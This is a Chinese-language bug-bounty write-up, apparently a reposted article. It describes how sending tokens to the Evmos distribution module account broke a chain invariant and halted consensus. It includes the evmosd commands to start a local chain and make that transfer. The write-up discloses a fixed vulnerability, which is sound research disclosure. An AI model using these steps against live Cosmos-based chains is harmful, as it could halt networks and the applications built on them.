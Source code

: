 #  【15万$】通过阅读文档发现Evmos中的高危漏洞   
白帽子左一  白帽子左一   2025-02-12 04:04  
  
扫码领资料  
  
获网安教程  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFbaUgVwdsriauB77CgQS8lyBNAxtx9IMqJQdhuuoITunu8A5Gp7kFjF7BvEXSaLMuDTYhnu7Nicghg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**来****Track安全社区投稿~**  
  
**赢千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
  
作为 Web3 安全研究员的生活通常涉及深入研究难以掌握的技术主题。因此，我们有时会认为关键漏洞应该是复杂且难以发现的，但实际上，情况可能恰恰相反。一些最赚钱的漏洞通常非常简单，只需稍加研究就能迅速发现。  
这正是我在   
Immunefi[1] 的 Evmos 漏洞赏金计划中遇到的情况。简单来说，我通过阅读 Evmos 所基于的 Cosmos 文档，发现了一个关键漏洞，该漏洞可以导致 Evmos 区块链及其上所有 dApp 停止运行。希望这个案例能向其他安全研究员展示，虽然深入理解协议对于发现复杂漏洞至关重要，但也不要忽视那些“低垂的果实”（容易被忽视的简单漏洞）。  
## Evmos 和 Cosmos 区块链  
  
Evmos 区块链是基于 Cosmos 模块化区块链框架构建的，该框架允许用户轻松搭建特定于应用的区块链。Cosmos 采用 Golang 编写，这对于习惯 Solidity 语言的安全研究员来说可能是完全不同的体验。不过，经过一两周的学习和实践，掌握 Cosmos 还是相对容易的。  
  
了解了这些背景后，让我们看看我是如何仅通过阅读 Cosmos 文档就发现 Evmos 的关键漏洞的。  
## Cosmos 文档  
  
Cosmos 框架提供了详细的  
文档[2]，帮助开发者快速上手。作为一名合格的 Web3 安全研究员，我的第一步就是审查 Cosmos 文档，因为它是 Evmos 的基础。通过学习文档，我开始了解 Cosmos 模块系统，它提供了区块链的基本功能。例如，bank 模块具备内置的账户间资金转移功能。  
  
在深入研究 bank 模块时，我发现了一个有趣的概念：“模块账户（module accounts）”。这些账户执行与模块相关的特定任务，但通常不应该接收资金。  
官方文档[3] 对此进行了详细解释：  
  
x/bank 模块接受一个地址映射，这些地址被视为黑名单，禁止直接接收资金。  
  
通常，这些地址是模块账户。如果这些地址收到超出状态机规则的资金，可能会破坏区块链的不变量，并导致网络停止运行。  
  
读到这里，一个优秀的安全研究员可能会想到：“他们直接告诉了我们如何让 Cosmos 区块链崩溃。” 那么……我们来试试看吧。  
## 漏洞分析  
  
我们的目标是向一个不应接收资金的模块账户转账，以破坏区块链的不变量，从而导致整个 Evmos 区块链停止运行。测试该漏洞的步骤如下：  
  
1.克隆 Evmos 区块链代码的 GitHub 仓库。  
  
2.在 Cosmos 区块链中，通常需要执行一系列步骤来正确启动区块链。这些步骤大致相同，包括：  
```
- 初始化区块链
- 添加有资金的创世账户
- 生成创世交易
- 收集创世交易
- 启动区块链
```  
  
这些命令通常如下所示：  
```
evmosd init evmos -o
evmosd add-genesis-account bob 100000000000stake,100000000000aevmos
evmosd gentx bob 70000000stake --chain-id evmos
evmosd collect-gentxs
evmosd start
```  
  
幸运的是，Evmos 已经提供了一个脚本来自动执行这些命令，因此我只需要使用特定参数运行 evmosd start 命令，即可启动区块链并生成区块。  
```
evmosd start --inv-check-period 5 --pruning=nothing $TRACE --log_level $LOGLEVEL --minimum-gas-prices=0.0001aevmos --json-rpc.api eth,txpool,personal,net,debug,web3.
```  
  
**3. 发送资金至分发模块账户**  
  
在区块链运行时，打开另一个终端，并执行以下命令，将资金发送到 **distribution（分发）模块账户**。在安全的 Cosmos 区块链中，这种操作本应被禁止。  
  
所有的模块账户地址可以通过在另一个终端运行以下命令查看：  
```
evmosd query auth accounts
```  
  
要获取 **mykey** 账户（区块链初始化时默认的账户），可以运行以下命令：  
```
evmosd keys list
```  
  
运行后，你会看到 **mykey** 账户地址，它的前缀是 evmos。然后，使用以下命令向 **distribution 模块账户** 发送资金（请替换 <mykey 地址> 和 <distribution 账户地址>）。  
```
evmosd tx bank send <mykey 地址> <distribution 账户地址> 100aevmos --gas-prices 20aevmos
```  
  
**4. 触发漏洞，导致 Evmos 区块链崩溃**  
  
执行上述命令后，我成功地向 **distribution 模块账户** 发送了资金，导致了以下错误：  
```
ERR CONSENSUS FAILURE!!! err="invariant broken: distribution"
```  
  
至此，区块链 **不再生成任何新区块，整个链完全停止运行**，从而导致 **Evmos 区块链及其上的所有 dApp 崩溃**。  
  
当然，这个漏洞已经被 Evmos 团队修复。  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHia9QjlDQxtbFLU5iakFmvQ70O1PsTR0GQE077TqRey8OfIQeRLrVPLeZftGF0gAlibbZO91pXPzibQA/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 总结  
  
这个相对简单的漏洞最终为我带来了 **$150,000** 的漏洞赏金，属于**关键级别（critical）**的发现。这个漏洞让我作为安全研究人员学到了几个重要的经验：  
  
首先，最明显的一点是——**始终要彻底阅读你正在研究的项目文档**。 其次，一个更深刻的体会是——**有时最关键的漏洞可能极其简单**。 第三，**我们不必人为地让漏洞挖掘变得更困难**，有时候最简单的漏洞往往价值最高。 最后，**在寻找复杂漏洞的过程中，我们绝不能忽视那些“低垂的果实”（容易发现的漏洞）**。  
### References  
  
[1] Immunefi: https://immunefi.com/[2] 文档: https://docs.cosmos.network/v0.46/intro/overview.html[3] 官方文档: https://docs.cosmos.network/v0.46/modules/bank/02_keepers.html#common-types  
  
**声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学********习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。所有渗透都需获取授权！**  
  
**如果你是一个网络安全爱好者，欢迎加入我的知识星球：zk安全知识星球,我们一起进步一起学习。星球不定期会分享一些前沿漏洞，每周安全面试经验、SRC实战纪实等文章分享，微信识别二维码，即可加入。**  
  
****  
  
